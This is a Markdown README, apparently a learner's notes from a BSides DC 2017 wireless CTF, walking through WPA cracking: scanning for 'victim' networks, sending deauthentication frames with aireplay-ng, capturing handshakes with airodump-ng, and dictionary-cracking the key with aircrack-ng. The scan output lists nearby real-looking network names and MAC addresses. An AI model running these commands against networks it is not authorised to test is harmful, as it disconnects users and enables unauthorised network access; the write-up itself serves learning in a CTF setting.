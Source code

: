 # How to haxx0r WPA!!
![BSides DC 2017](wirelessvillage.png?raw=true "My first wireless CTF ever!")

## Introduction
This is a very rough draft explaining the commands I used to crack my first WPA
network.  I created this file mostly for my benefit as I was learning, but I
figured it may save someone else out there someday from having to regrok more
manpages.  (To the aircrack guys' credit, their manpages are excellently
written.)  I will publish my full cracking scripts at a later date.

## Get card name
Find your Wi-Fi interface name(s) with the following:

```
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 fe80::4be1:e520:9605:274c/64 scope link 
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: wlp3s0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether 8c:a9:82:58:ac:68 brd ff:ff:ff:ff:ff:ff
    inet6 fe80::3bff:d4f:a3e7:37f7/64 scope link 
       valid_lft forever preferred_lft forever
3: enp0s25: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc fq_codel state DOWN group default qlen 1000
    link/ether f0:de:f1:4e:c6:3c brd ff:ff:ff:ff:ff:ff
```
   - Note that the `ip` command should work on virtually any Linux distro,
   unlike `ifconfig`.

## Find victim network
I made a horrible Bash abomination simply called `scanner` (please don't laugh)
that produces easier-to-read iwlist output which you can use or not use (I don't
care).

```
$ ./scanner # Find a victim network
          Cell 01 - Address: 70:3A:CB:F0:ED:CD
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=34/70  Signal level=-76 dBm
                    Encryption key:on
                    ESSID:"Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
          Cell 02 - Address: 72:3A:CB:F0:ED:CC
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=35/70  Signal level=-75 dBm
                    Encryption key:on
                    ESSID:"Guest-Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
          Cell 03 - Address: 70:3A:CB:F0:ED:80
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=24/70  Signal level=-86 dBm
                    Encryption key:on
                    ESSID:"Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
          Cell 04 - Address: F8:7B:8C:20:F8:EF
                    Channel:6
                    Frequency:2.437 GHz (Channel 6)
                    Quality=36/70  Signal level=-74 dBm
                    Encryption key:on
                    ESSID:"Home Wi-Fi 2.5Ghz"
                    IE: WPA Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
          Cell 05 - Address: 72:3A:CB:F0:ED:80
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=23/70  Signal level=-87 dBm
                    Encryption key:on
                    ESSID:"Guest-Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
```

Once a target has been sighted, you can make a little text file for reference:

```
$ ./scanner Guest-Middleton | tee victim_network-info.txt
          Cell 02 - Address: 72:3A:CB:F0:ED:CC
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=35/70  Signal level=-75 dBm
                    Encryption key:on
                    ESSID:"Guest-Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
--
          Cell 05 - Address: 72:3A:CB:F0:ED:80
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=26/70  Signal level=-84 dBm
                    Encryption key:on
                    ESSID:"Guest-Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
```

If your victim info gets lost in the scrollback you can use
`cat victim_network-info.txt` or `less victim_network-info.txt` anytime.

## Get some handshakes
You may have to get closer to the victim network in order to get a full hanshake.  Note the `Signal level` portion of the `iwlist` or `scanner` output.

Note that `iwconfig` may no longer work in the future, so you may have to set your channel with a different tool.

```
iwlist [CARD] scan
iwconfig [CARD] channel [CHANNEL_NUM]
aireplay-ng -0 2 -a [BSSID] [CARD]
airodump-ng --output-format pcap -w capshur -c [CHANNEL] [CARD]
wpaclean [OUTFILE] [INFILE(s)]
```

For the best results, run the `aireplay-ng` line and the `airodump-ng` line
on separate wireless cards.  Run the dump command on the card with the highest
gain antenna.

## Get crackin'
You now should have your handshake if you did the previous steps right.  You
now must crack it to uncover the pre-shared key (PSK).  You can use a bute-force attack, a dictionary attack, or a hybrid of the two.

### Pure Butal
```
wpapcap2john + JtR
aircrack-ng + hashcat
```

### A Basic Dictionary Attack
```
aircrack-ng -s -l wctf_05.psk -w super.words -e WCTF_05 superclean.cap
aircrack-ng -s -l [KEY OUTFILE] -w [WORDLIST] -e [ESSID] [CAPFILE]
```

### Hybrid
Read the John and Hashcat manpages for more info on how to carry out their
respective hybrid attacks.
